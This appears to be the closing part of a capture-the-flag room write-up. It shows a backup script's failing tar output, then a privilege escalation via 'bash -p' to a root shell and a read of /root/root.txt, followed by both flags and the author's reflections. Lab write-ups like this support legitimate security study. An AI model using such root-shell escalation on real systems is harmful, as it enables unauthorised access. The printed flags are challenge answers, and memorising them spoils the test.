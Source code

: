   ```
  Backing up /home/alex/Music/song1.mp3 /home/alex/Music/song2.mp3 /home/alex/Music/song3.mp3 /home/alex/Music/song4.mp3 /home/alex/Music/song5.mp3 /home/alex/Music/song6.mp3 /home/alex/Music/song7.mp3 /home/alex/Music/song8.mp3 /home/alex/Music/song9.mp3 /home/alex/Music/song10.mp3 /home/alex/Music/song11.mp3 /home/alex/Music/song12.mp3 to /etc/mp3backups//ubuntu-scheduled.tgz
  
  tar: Removing leading `/' from member names
  tar: /home/alex/Music/song1.mp3: Cannot stat: No such file or directory
  tar: /home/alex/Music/song2.mp3: Cannot stat: No such file or directory
  tar: /home/alex/Music/song3.mp3: Cannot stat: No such file or directory
  tar: /home/alex/Music/song4.mp3: Cannot stat: No such file or directory
  tar: /home/alex/Music/song5.mp3: Cannot stat: No such file or directory
  tar: /home/alex/Music/song6.mp3: Cannot stat: No such file or directory
  tar: /home/alex/Music/song7.mp3: Cannot stat: No such file or directory
  tar: /home/alex/Music/song8.mp3: Cannot stat: No such file or directory
  tar: /home/alex/Music/song9.mp3: Cannot stat: No such file or directory
  tar: /home/alex/Music/song10.mp3: Cannot stat: No such file or directory
  tar: /home/alex/Music/song11.mp3: Cannot stat: No such file or directory
  tar: /home/alex/Music/song12.mp3: Cannot stat: No such file or directory
  tar: Exiting with failure status due to previous errors
  
  Backup finished
  ```

- Now finish the job.

  ```
  alex@ubuntu:~$ bash -p
  bash-4.3# whoami
  root
  bash-4.3# cat /root/root.txt
  flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}
  ```

---

## 🏁 Flags

- **User Flag**: `flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}`
- **Root Flag**: `flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Extracting hidden repo since I needed new tool for that, this privilege escalation was also new to me.`

- What did I learn?
  `New tool and new exploitation method.`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
